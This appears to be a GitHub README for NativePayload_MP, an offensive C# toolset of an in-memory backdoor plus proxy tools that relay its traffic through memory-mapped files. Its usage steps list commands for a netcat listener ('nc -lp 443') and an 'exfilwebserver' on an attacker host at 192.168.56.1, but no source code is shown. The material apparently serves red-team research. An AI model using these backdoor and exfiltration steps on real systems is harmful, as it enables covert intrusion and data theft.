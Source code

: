 # NativePayload_MP
C# Memory Mapped File & Connection in-memory between Backdoor & Proxy Process
-----------------------


 NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)
 
 usage: 
    
    step1: NativePayload_MPAgent.exe
    step2: NativePayload_MP.exe
    
--------------------------------------------    


 NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.cs as web Exfil-server tool) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] NativePayload_HTTP.sh -exfilwebserver 80
    step3: [win]                NativePayload_MP1.exe 192.168.56.1 
    
 --------------------------------------------    
   

NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] nc -lp 443
    step3: [win]                NativePayload_MP2.exe 192.168.56.1 443
--------------------------------------------    
    
NativePayload_MPAgent.cs (this code is our backdoor tool) 
 
 usage: 
    
    step1: [win]                NativePayload_MPAgent.exe
    step2: [linux:192.168.56.1] nc -lp 443
    step3: [win]                NativePayload_MP2.exe 192.168.56.1 443
--------------------------------------------    
    
Article [1]: https://www.linkedin.com/pulse/memory-mapping-file-connection-in-memory-between-damon-mohammadbagher/

Article [2]: 

Video:

------------------------------------------------
NativePayload_MP1.cs (this code is Mapper/Proxy tool for working with NativePayload_HTTP.cs as web Exfil-server tool) 
 
![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/1.png)

------------------------------------------------
NativePayload_MP.cs (old version, this code was as Mapper for working with NativePayload_MPAgent as backdoor in Memory only)

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/2-W10.png)

------------------------------------------------
NativePayload_MP2.cs (this code is Mapper/Proxy tool for working with nc [Netcat]) 

![](https://github.com/DamonMohammadbagher/NativePayload_MP/blob/main/Pics/mp2-01.png)


